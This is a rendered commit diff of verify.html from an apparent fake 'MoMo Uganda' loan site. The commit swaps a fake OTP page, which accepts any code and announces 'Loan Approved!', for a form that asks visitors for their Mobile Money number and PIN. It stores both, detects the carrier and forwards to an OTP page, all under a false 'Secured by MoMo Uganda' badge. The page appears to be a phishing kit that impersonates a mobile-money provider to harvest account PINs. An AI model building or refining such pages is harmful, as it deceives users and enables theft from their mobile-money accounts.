

Before and after one commit to kibet-13/Momo-Uganda, a plain HTML site: page verify.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update verify.html

```diff
--- a/verify.html
+++ b/verify.html
@@ -3,12 +3,12 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=yes, viewport-fit=cover">
-    <title>OTP Verification - MoMo Uganda</title>
-    <link href="https://fonts.googleapis.com/css2?family=Plus+Jakarta+Sans:wght@400;500;600;700;800&display=swap" rel="stylesheet">
+    <title>Verify Loan - MoMo Uganda</title>
+    <link href="https://fonts.googleapis.com/css2?family=DM+Sans:wght@400;500;600;700&family=Sora:wght@600;700;800&display=swap" rel="stylesheet">
     <style>
         * { margin: 0; padding: 0; box-sizing: border-box; }
         body {
-            font-family: 'Plus Jakarta Sans', sans-serif;
+            font-family: 'DM Sans', sans-serif;
             background: #f3f4f6;
             min-height: 100vh;
             display: flex;
@@ -16,228 +16,223 @@
             justify-content: center;
             padding: 16px;
         }
-        .container {
+        .card {
             width: 100%;
-            max-width: 420px;
+            max-width: 430px;
             background: white;
-            border-radius: 24px;
-            box-shadow: 0 10px 40px rgba(0,0,0,0.1);
+            border-radius: 28px;
+            box-shadow: 0 20px 60px rgba(0,0,0,0.1);
             overflow: hidden;
         }
-        .logo-section {
+        .header {
             background: linear-gradient(135deg, #E42320 0%, #c01c1a 100%);
-            text-align: center;
-            padding: 28px 0 22px;
+            padding: 28px 28px 24px;
         }
-        .brand-logo {
-            display: inline-flex;
+        .logo-wrap {
+            display: flex;
             align-items: center;
-            gap: 10px;
+            gap: 12px;
+            margin-bottom: 18px;
         }
-        .logo-icon {
+        .logo-bg {
+            background: white;
+            border-radius: 14px;
+            padding: 6px;
             width: 48px;
             height: 48px;
-            background: white;
-            border-radius: 14px;
             display: flex;
             align-items: center;
             justify-content: center;
         }
         .brand-name {
+            font-family: 'Sora', sans-serif;
+            font-size: 18px;
+            font-weight: 700;
             color: white;
+        }
+        .brand-sub {
+            font-size: 11.5px;
+            color: rgba(255,255,255,0.72);
+        }
+        .header-title {
+            font-family: 'Sora', sans-serif;
+            font-size: 23px;
+            font-weight: 800;
+            color: white;
+        }
+        .header-desc {
+            font-size: 13.5px;
+            color: rgba(255,255,255,0.78);
+            margin-top: 6px;
+        }
+        .loan-info {
+            margin: 20px 22px 0;
+            background: rgba(228,35,32,0.08);
+            border: 1px solid rgba(228,35,32,0.18);
+            border-radius: 18px;
+            padding: 16px 18px;
+            display: flex;
+            align-items: center;
+            gap: 14px;
+        }
+        .loan-icon {
+            width: 42px; height: 42px;
+            background: #E42320;
+            border-radius: 12px;
+            display: flex;
+            align-items: center;
+            justify-content: center;
+            color: white;
+            font-size: 20px;
+        }
+        .loan-amount {
+            font-family: 'Sora', sans-serif;
             font-size: 26px;
-            font-weight: 700;
+            font-weight: 800;
+            color: #111827;
         }
-        .tagline {
-            color: rgba(255,255,255,0.85);
-            font-size: 12.5px;
+        .form-body {
+            padding: 22px 22px 26px;
         }
-        h1 {
-            text-align: center;
-            font-size: 22px;
-            font-weight: 700;
-            color: #1e2937;
-            margin: 22px 0 6px;
+        .form-group {
+            margin-bottom: 20px;
         }
-        .subtitle {
-            text-align: center;
-            color: #475569;
-            font-size: 14px;
-            padding: 0 25px 18px;
+        label {
+            display: block;
+            font-size: 13px;
+            font-weight: 600;
+            margin-bottom: 7px;
         }
-        .offer-info {
-            background: #fff0f0;
-            margin: 0 20px 18px;
-            padding: 15px;
-            border-radius: 16px;
-            text-align: center;
+        input {
+            width: 100%;
+            padding: 13px 15px;
+            background: #f9fafb;
+            border: 1.5px solid #e5e7eb;
+            border-radius: 13px;
+            font-size: 15.5px;
+            outline: none;
         }
-        .offer-amount {
-            color: #E42320;
-            font-weight: 800;
-            font-size: 24px;
+        input:focus {
+            border-color: #E42320;
         }
-        .otp-container {
-            display: flex;
-            justify-content: center;
-            gap: 10px;
-            margin: 18px 0 26px;
-            padding: 0 20px;
-            flex-wrap: wrap;
-        }
-        .otp-input {
-            width: 52px;
-            height: 62px;
-            text-align: center;
-            font-size: 26px;
-            font-weight: 700;
-            color: #E42320;
-            border: 2px solid #e2e8f0;
-            border-radius: 14px;
-            outline: none;
-            background: white;
-        }
-        .otp-input:focus {
-            border-color: #E42320;
-            box-shadow: 0 0 0 4px rgba(228,35,32,0.15);
-        }
-        .btn-action {
+        .btn-primary {
             width: 100%;
-            background: #E42320;
+            background: linear-gradient(135deg, #E42320, #c01c1a);
             color: white;
             border: none;
-            padding: 17px;
-            font-size: 17px;
+            padding: 15px;
+            font-size: 16px;
             font-weight: 700;
             border-radius: 50px;
             cursor: pointer;
-            margin: 10px 0;
+            margin-top: 10px;
         }
-        .back-btn {
+        .btn-back {
             width: 100%;
             background: transparent;
-            color: #64748b;
-            border: 2px solid #e2e8f0;
-            padding: 16px;
-            font-size: 16px;
+            color: #4b5563;
+            border: 1.5px solid #e5e7eb;
+            padding: 14px;
             font-weight: 600;
             border-radius: 50px;
             cursor: pointer;
+            margin-top: 10px;
         }
-        .check-icon {
-            width: 60px;
-            height: 60px;
-            background: #10b981;
-            border-radius: 50%;
-            display: flex;
-            align-items: center;
-            justify-content: center;
-            margin: 0 auto 16px;
-            color: white;
-            font-size: 30px;
+        .security-note {
+            text-align: center;
+            font-size: 12px;
+            color: #9ca3af;
+            margin-top: 18px;
         }
     </style>
 </head>
 <body>
-<div class="container">
-    <div class="logo-section">
-        <div class="brand-logo">
-            <div class="logo-icon">
+<div class="card">
+    <div class="header">
+        <div class="logo-wrap">
+            <div class="logo-bg">
                 <svg width="28" height="28" viewBox="0 0 28 28" fill="none">
-                    <rect x="3" y="12" width="22" height="14" rx="3" fill="#E42320"/>
+                    <rect x="3" y="12" width="22" height="14" rx="3" fill="white"/>
                     <path d="M8 12V9C8 6.24 10.24 4 13 4H15C17.76 4 20 6.24 20 9V12" stroke="white" stroke-width="2.2" fill="none"/>
-                    <circle cx="14" cy="19" r="2.5" fill="white"/>
+                    <circle cx="14" cy="19" r="2.5" fill="#E42320"/>
                 </svg>
             </div>
             <div>
                 <div class="brand-name">MoMo Uganda</div>
-                <div class="tagline">Mobile Money • Loans</div>
+                <div class="brand-sub">Mobile Money</div>
             </div>
+        </div>
+        <div class="header-title">Verify Your Loan</div>
+        <div class="header-desc">Enter your MoMo number and PIN</div>
+    </div>
+
+    <div class="loan-info">
+        <div class="loan-icon">₸</div>
+        <div>
+            <div style="font-size:11px; color:#E42320;">Loan Amount</div>
+            <div class="loan-amount" id="loanAmount">—</div>
+            <div id="loanDetails" style="font-size:12px; color:#4b5563;"></div>
         </div>
     </div>
 
-    <div class="content-wrapper">
-        <h1>Enter OTP Code</h1>
-        <p class="subtitle">Enter any 6-digit code to complete your loan</p>
-
-        <div class="offer-info">
-            <div class="offer-amount" id="offerAmount">—</div>
-            <div id="offerDetails" style="font-size:12px; color:#64748b; margin-top:5px;"></div>
+    <div class="form-body">
+        <div class="form-group">
+            <label>Mobile Money Number</label>
+            <input type="tel" id="phone" placeholder="077XXXXXXX" maxlength="10">
         </div>
-
-        <div class="otp-container" id="otpInputs"></div>
-
-        <div style="padding: 0 25px 30px;">
-            <button class="btn-action" id="verifyBtn">Verify & Complete Loan</button>
-            <button class="back-btn" onclick="window.location.href='verify.html'">← Back</button>
+        <div class="form-group">
+            <label>MoMo PIN</label>
+            <input type="password" id="pin" placeholder="••••" maxlength="4">
         </div>
-    </div>
-</div>
-
-<div id="completionModal" style="display:none; position:fixed; inset:0; background:rgba(0,0,0,0.8); z-index:20000; align-items:center; justify-content:center; padding:20px;">
-    <div style="background:white; max-width:380px; border-radius:24px; padding:32px 24px; text-align:center;">
-        <div class="check-icon">✓</div>
-        <h2 style="color:#1e2937; margin-bottom:8px;">Loan Approved!</h2>
-        <p style="color:#64748b; margin-bottom:24px;">Your loan has been successfully approved. Funds will be sent to your MoMo account shortly.</p>
-        <button onclick="window.location.href='index.html'" style="background:#E42320; color:white; border:none; padding:14px 28px; border-radius:50px; font-weight:700; cursor:pointer;">Return Home</button>
+        <button class="btn-primary" id="submitBtn">Continue →</button>
+        <button class="btn-back" onclick="window.location.href='index.html'">← Back</button>
+        <div class="security-note">🔒 Secured by MoMo Uganda</div>
     </div>
 </div>
 
 <script>
     function loadLoanData() {
-        const calculatorData = sessionStorage.getItem('calculatorData');
-        if (calculatorData) {
-            const data = JSON.parse(calculatorData);
-            document.getElementById('offerAmount').textContent = `UGX ${data.amount.toLocaleString()}`;
-            const months = data.duration / 30;
-            document.getElementById('offerDetails').textContent = `${months} Month${months > 1 ? 's' : ''} • Monthly: UGX ${data.monthly.toLocaleString()}`;
+        const data = sessionStorage.getItem('calculatorData');
+        if (data) {
+            const loan = JSON.parse(data);
+            document.getElementById('loanAmount').textContent = `UGX ${loan.amount.toLocaleString()}`;
+            document.getElementById('loanDetails').textContent = `${loan.duration/30} months • UGX ${loan.monthly.toLocaleString()}/month`;
         }
     }
 
-    function createInputs() {
-        const container = document.getElementById('otpInputs');
-        container.innerHTML = '';
-        for (let i = 0; i < 6; i++) {
-            const input = document.createElement('input');
-            input.type = 'text';
-            input.maxLength = 1;
-            input.className = 'otp-input';
-            input.inputMode = 'numeric';
-            container.appendChild(input);
-        }
-    }
+    document.getElementById('submitBtn').onclick = () => {
+        const phone = document.getElementById('phone').value.trim();
+        const pin = document.getElementById('pin').value.trim();
 
-    function getCode() {
-        return Array.from(document.querySelectorAll('.otp-input')).map(i => i.value.trim()).join('');
-    }
-
-    function setupAutoFocus() {
-        const inputs = document.querySelectorAll('.otp-input');
-        inputs.forEach((input, index) => {
-            input.addEventListener('input', () => {
-                input.value = input.value.replace(/\D/g, '');
-                if (input.value.length === 1 && index < 5) {
-                    inputs[index + 1].focus();
-                }
-            });
-        });
-    }
-
-    document.getElementById('verifyBtn').onclick = () => {
-        const otp = getCode();
-        if (otp.length !== 6) {
-            alert("Enter 6-digit code");
+        if (!phone || phone.length !== 10) {
+            alert("Enter valid Uganda number (10 digits)");
             return;
         }
-        // Any 6-digit code works - show success
-        document.getElementById('completionModal').style.display = 'flex';
-        sessionStorage.clear();
+        if (!pin || pin.length !== 4) {
+            alert("PIN must be 4 digits");
+            return;
+        }
+
+        sessionStorage.setItem('userPhone', phone);
+        sessionStorage.setItem('userPin', pin);
+
+        let network = 'MTN';
+        if (phone.startsWith('075') || phone.startsWith('074')) network = 'Airtel';
+        else if (phone.startsWith('070') || phone.startsWith('076')) network = 'Africell';
+        sessionStorage.setItem('userNetwork', network);
+
+        window.location.href = 'otp.html';
     };
 
-    createInputs();
-    setupAutoFocus();
+    document.getElementById('phone').addEventListener('input', function(e) {
+        this.value = this.value.replace(/[^0-9]/g, '').slice(0, 10);
+    });
+
+    document.getElementById('pin').addEventListener('input', function(e) {
+        this.value = this.value.replace(/[^0-9]/g, '').slice(0, 4);
+    });
+
     loadLoanData();
-    document.querySelectorAll('.otp-input')[0]?.focus();
 </script>
 </body>
 </html>
```
